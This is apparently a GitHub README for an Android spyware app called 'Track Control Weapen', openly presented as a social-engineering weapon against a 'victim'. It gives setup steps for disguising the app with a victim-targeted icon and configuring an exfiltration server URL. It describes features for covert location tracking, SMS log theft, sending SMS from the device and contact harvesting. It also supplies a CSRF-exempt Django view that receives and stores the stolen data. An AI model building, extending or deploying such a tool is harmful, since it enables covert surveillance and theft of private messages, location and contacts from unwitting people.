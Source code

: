 <center> <h1> Track Control Weapen </h1> </center>

## Overview

This mobile app offers multiple modes of Social Engineering operation:

1. **Exact Location Tracking**: Track the exact location of the device.
2. **SMS Log Extraction**: Extract SMS logs from the device.
3. **Sending SMS from Device**: Send SMS messages from the device.
4. **Contact Extraction**: Extract contact information from the device.
5. **Installed App List Extraction**: Retrieve a list of installed apps on the device.
6. **More features coming soon**: Additional features will be added in future updates.

Currently, only the Exact Location Tracker is completed.

## TODO List

- [x] Exact Location Tracker
- [x] SMS Log Extraction
- [x] Sending SMS from Device
- [ ] Contact Extraction
- [ ] Installed App list Extraction
- [ ] Additional features

## Setup Instructions

To set up the app, follow these steps:

1. **Configure `strings.xml`**:
   - Navigate to the `res/values` folder.
   - Create or edit the `strings.xml` file using the template below:

### strings.xml Template

```xml
<resources>
    <string name="app_name">Your App Name</string>
    <string name="Victim">Name of victim to tag the received data</string>
    <string name="AppType">App type to generate (refer Changing App Modes) </string>
    <string name="server_Url">Server URL where POST request is created</string>
    <string name="SendSmsTo"> Phone No</string>
    <string name="Message">test Message to check</string>
    <string name="profile_image">Upload Profile Pic</string>
    <string name="upload_image">Update Pic</string>
</resources>
```

2. **Change the app icon**:

   - Navigate to the `res` folder.
   - Replace the existing icon files in the `mipmap` folders with your target(victim) based icon files.

3. **Build and Run the App**:
   - Open your project in Android Studio.
   - Build and run the app on your device or emulator.

## Structure of the POST Request

The app sends data to the server using a POST request with the following structure:

- `name`: Assigned in the `strings.xml`
- `mv01`: Contains all raw text data sent by the app

### Example POST Request

```json
{
	"name": "victim name",
	"mv01": "this is sent data"
}
```

## Receiver End Setup

The receiver end can be a Django server hosted on PythonAnywhere (https://www.pythonanywhere.com/) for free. To handle the POST request, you can use the following view:

```python
from django.views.decorators.csrf import csrf_exempt
from django.views.decorators.http import require_POST
from django.http import JsonResponse
from .models import tracker_database

@csrf_exempt
@require_POST
def tracker_database_entry(request):
    if request.POST.get("mv01"):
        entry = tracker_database(
            plan_data=request.POST.get("mv01"),
            name=request.POST.get("name", "s")
        )
        entry.save()
        response = {'status': 'success'}
        return JsonResponse(response, status=201)
    else:
        response = {'status': 'failure', 'message': 'Invalid data'}
        return JsonResponse(response, status=400)
```

## Changing App Modes

You can change the app modes by altering the `private Integer AppType = 1;` value in `MainActivity`. The available modes are:

- `0` -- All: Enable all features [only extraction].
- `1` -- Location: Enable exact location tracking.
- `2` -- SMS: Enable SMS log extraction.
- `3` -- Send SMS: Enable sending SMS from the device.
- `4` -- Contact: Enable Contact log extraction.
- `5` -- Installed App: Enable Installed App list log extraction.

## Contribution

If you would like to contribute to the project, please follow these steps:

1. Fork the repository.
2. Create a new branch (`git checkout -b feature-branch`).
3. Make your changes and commit them (`git commit -m 'Add new feature'`).
4. Push to the branch (`git push origin feature-branch`).
5. Create a new Pull Request.

## License

This project is licensed under the MIT License. See the `LICENSE` file for more details.

## Contact

For any questions or suggestions, please contact [ss.shiivam.00@gmail.com].
